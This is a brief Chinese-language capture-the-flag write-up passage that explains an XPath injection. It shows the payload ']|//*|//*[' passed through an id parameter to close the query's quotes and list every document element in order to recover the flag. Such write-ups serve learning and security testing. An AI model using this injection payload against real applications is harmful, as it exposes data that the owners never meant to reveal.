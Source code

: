 也是有东西的，猜测flag应该在某个数字里面，但是我们传到7就会发现没有回显

这里用的是Xpath的注入，具体原理在此链接

https://blog.csdn.net/qq_63701832/article/details/129433006

```
这是本题用的方式
']|//*|//*['
$query="user/username[@name='']|//*|//*['';
这里闭合了$user前后的单引号同时执行三个操作，其中第二个操作//*即是关键点，列出文档中的所有元素，最后拿到flag
```

那我们直接传入

```
?id=']|//*|//*['
```

![image-20240126113159172](image/image-20240126113159172.png)

就可以列出所有内容，得到flag
